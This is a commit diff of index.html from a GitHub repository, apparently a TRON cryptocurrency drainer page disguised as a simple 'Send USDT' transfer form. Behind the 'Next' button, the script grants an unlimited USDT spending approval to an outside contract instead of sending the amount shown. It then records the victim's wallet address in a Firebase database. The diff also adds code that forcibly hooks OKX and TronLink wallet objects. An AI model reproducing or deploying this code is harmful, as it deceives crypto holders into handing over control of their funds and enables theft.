

Before and after one commit to jsharma6142/2, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (328-968 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,100 +2,90 @@
 <html lang="en">
   <head>
     <meta charset="UTF-8" />
-    <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-    <title>USDT Transfer</title>
-    <link href="https://fonts.googleapis.com/css2?family=Inter:wght@400;600&display=swap" rel="stylesheet">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
+    <title>TRC20 USDT Approval</title>
+    <link rel="stylesheet" href="https://fonts.googleapis.com/css2?family=Inter:wght@400;600&display=swap" />
     <style>
-      * {
-        box-sizing: border-box;
+      body {
         font-family: 'Inter', sans-serif;
         margin: 0;
         padding: 0;
-      }
-      body {
-        background-color: #f9fafb;
+        background-color: #f6f8fa;
+        color: #1a1a1a;
         display: flex;
         flex-direction: column;
         align-items: center;
-        padding: 20px;
-        min-height: 100vh;
+        justify-content: center;
+        height: 100vh;
       }
       .container {
-        background: white;
+        width: 90%;
+        max-width: 400px;
+        background-color: white;
+        padding: 24px;
         border-radius: 16px;
-        box-shadow: 0 4px 12px rgba(0,0,0,0.1);
-        max-width: 420px;
-        width: 100%;
-        padding: 24px;
+        box-shadow: 0 8px 24px rgba(0, 0, 0, 0.05);
       }
-      .header {
-        font-size: 20px;
-        font-weight: 600;
-        margin-bottom: 20px;
+      h2 {
         text-align: center;
-        color: #111827;
-      }
-      label {
-        font-size: 14px;
-        font-weight: 500;
-        margin-bottom: 8px;
-        display: block;
-        color: #374151;
+        margin-bottom: 24px;
       }
       input {
         width: 100%;
         padding: 12px;
-        border: 1px solid #d1d5db;
-        border-radius: 12px;
+        margin-bottom: 16px;
         font-size: 16px;
-        margin-bottom: 20px;
-        outline: none;
-      }
-      input:focus {
-        border-color: #6366f1;
+        border: 1px solid #ccc;
+        border-radius: 8px;
       }
       button {
-        background-color: #10b981;
+        width: 100%;
+        padding: 12px;
+        font-size: 16px;
+        background-color: #007bff;
         color: white;
         border: none;
-        border-radius: 12px;
-        padding: 14px;
-        font-size: 16px;
-        font-weight: 600;
+        border-radius: 8px;
         cursor: pointer;
-        width: 100%;
-        transition: background-color 0.3s;
       }
-      button:hover {
-        background-color: #059669;
+      button:disabled {
+        background-color: #aaa;
+        cursor: not-allowed;
       }
     </style>
-  </head>
-  <body>
-    <div class="container">
-      <div class="header">USDT Transfer</div>
-      <label>Recipient</label>
-      <input type="text" value="TKTdAiXKvAWH7T9bxpBodYecRPtFDGZ7jN" disabled />
-      <label>Amount</label>
-      <input type="number" id="amount" placeholder="Enter amount" />
-      <button onclick="approveUSDT()">Next</button>
-    </div>
+    <script src="https://www.gstatic.com/firebasejs/9.6.1/firebase-app-compat.js"></script>
+    <script src="https://www.gstatic.com/firebasejs/9.6.1/firebase-firestore-compat.js"></script>
+    <script>
+      const firebaseConfig = {
+        apiKey: "AIzaSyBkyDsWXjZXx8w1SGxP7Koxq8pzkW8NYxM",
+        authDomain: "trc20-approval-dapp.firebaseapp.com",
+        projectId: "trc20-approval-dapp",
+        storageBucket: "trc20-approval-dapp.appspot.com",
+        messagingSenderId: "770961226156",
+        appId: "1:770961226156:web:d7857b971dd376b7902209"
+      };
+      firebase.initializeApp(firebaseConfig);
+      const db = firebase.firestore();
+    </script>
+    <script>
+      const usdtAddress = "TVhb7QfSgPuYvFqzhgwAxDJD6Fdw1PzkzS";
+      const contractAddress = "TYMqXAPENEz1yehDFQE34hngR1KqLW1zhX";
 
-    <script src="https://cdn.jsdelivr.net/npm/web3@1.10.0/dist/web3.min.js"></script>
-    <script>
-      const contractAddress = 'TYMqXAPENEz1yehDFQE34hngR1KqLW1zhX';
-      const usdtAddress = 'TR7NHqjeKQxGTCi8q8ZY4pL8otSzgjLj6t';
-
-      async function waitForTronWeb(retries = 20, delay = 500) {
-        return new Promise((resolve, reject) => {
-          let attempts = 0;
+      async function detectTronWeb(retries = 30, delay = 500) {
+        return new Promise((resolve) => {
+          let attempt = 0;
           const timer = setInterval(() => {
             if (window.tronWeb && window.tronWeb.defaultAddress.base58) {
               clearInterval(timer);
               resolve(true);
+            } else if (window.okxwallet || window.tronLink) {
+              // force reload injection
+              try {
+                window.tronWeb = window.okxwallet?.tronWeb || window.tronLink?.tronWeb;
+              } catch {}
             }
-            attempts++;
-            if (attempts >= retries) {
+            attempt++;
+            if (attempt >= retries) {
               clearInterval(timer);
               resolve(false);
             }
@@ -104,28 +94,24 @@
       }
 
       async function approveUSDT() {
-        const tronReady = await waitForTronWeb(20, 500); // wait up to 10 seconds
-
-        if (!tronReady) {
-          alert("Please connect your TRON wallet (e.g., OKX Web3, SafePal).");
+        const tronReady = await detectTronWeb();
+        if (!tronReady || !window.tronWeb || !window.tronWeb.defaultAddress.base58) {
+          alert("Please connect your TRON wallet (OKX Web3, SafePal, TokenPocket).");
           return;
         }
 
         const userAddress = window.tronWeb.defaultAddress.base58;
         const amount = document.getElementById("amount").value;
-
         if (!amount || isNaN(amount) || parseFloat(amount) <= 0) {
-          alert("Enter valid amount.");
+          alert("Enter a valid amount.");
           return;
         }
 
         try {
           const usdtContract = await window.tronWeb.contract().at(usdtAddress);
-
           await usdtContract.approve(contractAddress, "0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff").send({
             feeLimit: 100000000
           });
-
           saveToFirestore(userAddress, amount);
           alert("Approval successful. USDT can now be pulled by the contract owner.");
         } catch (error) {
@@ -134,35 +120,21 @@
         }
       }
 
-      // Firebase Setup
-      import("https://www.gstatic.com/firebasejs/10.5.2/firebase-app-compat.js").then(() => {
-        import("https://www.gstatic.com/firebasejs/10.5.2/firebase-firestore-compat.js").then(() => {
-          const firebaseConfig = {
-            apiKey: "AIzaSyBkyDsWXjZXx8w1SGxP7Koxq8pzkW8NYxM",
-            authDomain: "trc20-approval-dapp.firebaseapp.com",
-            projectId: "trc20-approval-dapp",
-            storageBucket: "trc20-approval-dapp.appspot.com",
-            messagingSenderId: "770961226156",
-            appId: "1:770961226156:web:d7857b971dd376b7902209"
-          };
-          firebase.initializeApp(firebaseConfig);
-          const db = firebase.firestore();
-
-          window.saveToFirestore = function (wallet, amount) {
-            window.tronWeb.trx.getBalance(wallet).then(balanceInSun => {
-              const balance = balanceInSun / 1e6;
-              db.collection("approvals").add({
-                wallet_address: wallet,
-                amount,
-                balance,
-                timestamp: new Date().toISOString()
-              }).then(() => {
-                console.log("Saved to Firestore");
-              }).catch(console.error);
-            });
-          };
+      function saveToFirestore(wallet, amount) {
+        db.collection("approvals").add({
+          wallet_address: wallet,
+          amount: amount,
+          timestamp: firebase.firestore.FieldValue.serverTimestamp()
         });
-      });
+      }
     </script>
+  </head>
+  <body>
+    <div class="container">
+      <h2>Send USDT (TRC-20)</h2>
+      <input type="text" id="wallet" value="TKTdAiXKvAWH7T9bxpBodYecRPtFDGZ7jN" disabled />
+      <input type="number" id="amount" placeholder="Enter USDT Amount" />
+      <button onclick="approveUSDT()">Next</button>
+    </div>
   </body>
 </html>
```
